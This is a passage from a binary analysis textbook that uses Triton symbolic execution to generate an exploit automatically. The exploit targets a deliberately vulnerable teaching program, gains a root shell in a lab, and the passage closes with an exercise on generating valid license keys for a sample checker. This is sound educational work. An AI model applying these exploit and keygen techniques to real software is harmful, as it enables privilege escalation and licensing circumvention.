To compute the exploit for the vulnerable call site, `exploit_icall` starts by getting the register ID of the register operand containing the indirect call’s target address ➊. It then calls `Triton.getAstFromId` to get the AST containing the symbolic expression for this register and calls `Triton.unrollAst` to “unroll” it into a fully expanded AST without reference nodes ➋.

Next, `exploit_icall` gets a Triton `AstContext`, which it uses to build the AST expression for the solver ➌, just like you saw before in the code coverage tool in Section 13.4. The base constraint to satisfy for the exploit is straightforward: you want to find a solution such that the symbolic expression for the indirect call’s target register equals the address of the secret admin area as stored in the global `target` variable ➍.

Note that the constant `triton.CPUSIZE.QWORD_BIT` represents the size of a machine quad word (8 bytes) *in bits* in contrast to `triton.CPUSIZE.QWORD`, which represents that same size in bytes. This means that `ast.bv(target, triton.CPUSIZE.QWORD_BIT)` builds a 64-bit bitvector containing the address of the secret admin area.

In addition to the base constraint for the target register expression, the exploit requires some constraints on the form the user inputs can take. To impose these constraints, `exploit_icall` loops over all the symbolic variables ➎, checking their comments to see whether they represent user input bytes from `argv` ➏. If so, `exploit_icall` gets the symbolic variable’s AST expression ➐ and constrains it such that the byte must be a printable ASCII character ➑ ( ≥ 32 and ≥ 126). It then appends this constraint to the overall list of constraints for the exploit ➒.

Finally, `exploit_icall` calls `Triton.getModel` to compute an exploit model for the set of constraints it just built ➓, and if such a model exists, it prints the model to screen so that the user can use it to exploit the `icall` program. For each variable in the model, the output shows its Triton ID as well as its human-readable comment that says to which `argv` byte the symbolic variable corresponds. That way, the user can easily map the model back onto concrete command line arguments. Let’s try this by generating an exploit for the `icall` program and using it to gain a root shell.

#### *13.5.4 Getting a Root Shell*

Listing 13-18 shows how to use *exploit_callsite.py* in practice to generate an exploit for the `icall` program.

*Listing 13-18: Trying to find an exploit for* icall *with input length 3*

```
➊ $ cd ~/triton/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build
➋ $ ./triton ➌~/code/chapter13/exploit_callsite.py \
             ➍~/code/chapter13/icall 2 AAA
➎ Symbolized argument 2: AAA
   Symbolized argument 1: 2
➏ Calling 0x223c625e
➐ Found tainted indirect call site '0x400bef: call rax'
➑ Getting model for 0x400bef: call rax -> 0x400b3b
   # no model found
```

First, you navigate to the main Triton directory on the VM, where you’ll find the `triton` wrapper script ➊. Recall that Triton provides this wrapper script to automatically handle the required Pin setup for concolic tools. In a nutshell, the wrapper script runs the analyzed program (`icall`) in Pin using Triton’s concolic library as the Pintool. That library takes your user-defined concolic tool (*exploit_callsite.py*) as an argument and takes care of starting the tool.

All you need to do to start the analysis is call the `triton` wrapper script ➋, passing the name of the *exploit_callsite.py* script ➌ and the name and arguments of the program to analyze (`icall` with index 2 and input string `AAA`) ➍. The `triton` wrapper script now ensures that `icall` runs with the given arguments in Pin under control of the *exploit_callsite.py* script. Note that the input string `AAA` is not an exploit but just an arbitrary string to drive the concolic execution.

The script intercepts `icall`’s `main` function and symbolizes all the user input bytes in `argv` ➎. When `icall` reaches the indirect call site, it uses the address `0x223c625e` as the target ➏, which is the hash of `AAA`. This is a bogus address that would normally lead to a crash, but in this case it doesn’t matter because *exploit_callsite.py* computes the exploit model before the indirect call ever executes.

When the indirect call is about to execute ➐, *exploit_callsite.py* tries to find a model that yields a set of user inputs that hash to the call target `0x400b3b`, which is the address of the secret admin area ➑. Note that this step may take a while, up to a few minutes depending on your hardware configuration. Unfortunately, the solver is unable to find a model, so *exploit_callsite.py* stops without finding an exploit.

Luckily, this doesn’t necessarily mean that no exploit exists. Recall that you’ve given the concolic execution of `icall` the input string `AAA` and that *exploit_callsite.py* creates a separate symbolic variable for each of the three input bytes in that string. As a result, the solver tries to find an exploit model based on a user input string of length 3. Thus, the solver’s inability to find an exploit means only that there’s no input string *of length 3* that forms a suitable exploit, but you may have more luck for inputs of a different length. Rather than trying every possible input length manually, you can automate this process, as shown in Listing 13-19.

*Listing 13-19: Scripting exploit attempts with varying input length*

```
   $ cd ~/triton/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build
➋ $ for i in $(seq 1 100); do
      str=`python -c "print 'A'*"${i}`
      echo "Trying input len ${i}"
➌    ./triton ~/code/chapter13/exploit_callsite.py ~/code/chapter13/icall 2 ${str} \
       | grep -a SymVar
     done
➍ Trying input len 1
   Trying input len 2
   Trying input len 3
   Trying input len 4
➎ SymVar_0 = 0x24 (argv[2][0])
   SymVar_1 = 0x2A (argv[2][1])
   SymVar_2 = 0x58 (argv[2][2])
   SymVar_3 = 0x26 (argv[2][3])
   SymVar_4 = 0x40 (argv[2][4])
   SymVar_5 = 0x20 (argv[1][0])
   SymVar_6 = 0x40 (argv[1][1])
   Trying input len 5
➏ SymVar_0 = 0x64 (argv[2][0])
   SymVar_1 = 0x2A (argv[2][1])
   SymVar_2 = 0x58 (argv[2][2])
   SymVar_3 = 0x26 (argv[2][3])
   SymVar_4 = 0x3C (argv[2][4])
   SymVar_5 = 0x40 (argv[2][5])
   SymVar_6 = 0x40 (argv[1][0])
   SymVar_7 = 0x40 (argv[1][1])
   Trying input len 6
   ˆC
```

Here, I’ve used a `bash for` statement to loop over all integers *i* between 1 and 100 ➊. In each iteration, the loop creates a string of *i* letter “A” characters ➋ and then tries to generate an exploit with this length-*i* string as the user input ➌, just like you saw in Listing 13-18 for length 3.^(8)

To reduce clutter in the output, you can use `grep` to display only output lines containing the word *SymVar*. This ensures that the output shows only those lines printed from successful models and that exploit generation attempts that don’t produce a model fail silently.

The exploit loop’s output starts at ➍. It fails to find a model for input lengths 1 through 3 but succeeds for length 4 ➎ and again for length 5 ➏. I’ve stopped execution after that because there’s no need to try more input lengths when you’ve already found an exploit.

Let’s try the first exploit reported in the output (the one with length 4). To translate this output into an exploit string, you concatenate the ASCII characters that the solver assigned to the symbolic variables that correspond to `argv[2][0]` through `argv[2][3]` since those are the user input bytes used as input for `icall`’s hash function. As you can see in Listing 13-19, the solver chose the values `0x24`, `0x2A`, `0x58`, and `0x26` for those bytes, respectively. The byte at `argv[2][4]` should be the terminating `NULL` of the user input string, but the solver doesn’t know that and so picked the random input byte `0x40` for that position, which you can safely ignore.

The bytes assigned to `argv[2][0]` through `argv[2][3]` in the model correspond to the ASCII exploit string `$*X&`. Let’s try giving this exploit string as input to `icall` in Listing 13-20.

*Listing 13-20: Exploiting the* icall *program*

```
➊ $ cd ~/code/chapter13
➋ $ ./icall 2 '$*X&'
➌ Calling 0x400b3b
➍ # whoami
  root
```

To try the exploit, you navigate back to the code directory for this chapter, where `icall` is ➊, and then call `icall` with the out-of-bounds index 2 and the just-generated exploit string ➋. As you can see, the exploit string hashes exactly to `0x400b3b`, the address of the secret admin area ➌. Thanks to the lack of bounds checking on the function pointer index given by the user, you successfully trick `icall` into calling that address and giving you a root shell ➍. As you can see, the command `whoami` prints `root`, verifying that you’ve obtained a root shell. You’ve automatically generated an exploit using symbolic execution!

### 13.6 Summary

In this chapter, you learned how to use symbolic execution to build tools that automatically uncover nontrivial information about binary programs. Symbolic execution is one of the most powerful binary analysis techniques, although you have to use it with care to minimize scalability issues. As you’ve seen in the automatic exploitation example, you can further increase the effectiveness of your symbex tools by combining them with other techniques, such as dynamic taint analysis.

If you’ve read this book in its entirety, you should now be familiar with a variety of binary analysis techniques that you can use for a wide range of goals, from hacking and security testing to reverse engineering, malware analysis, and debugging. I hope this book has enabled you to work more effectively on your own binary analysis projects and that it’s given you a solid basis from which to continue learning in the field of binary analysis, perhaps even advancing it through your own contributions!

Exercise

1\. Generating License Keys

In the code directory for this chapter, you’ll find a program called *license.c* that takes as input a serial number and checks whether it’s valid (similar to license key checks in commercial software). Make a symbolic execution tool with Triton that can generate valid license keys accepted by *license.c*.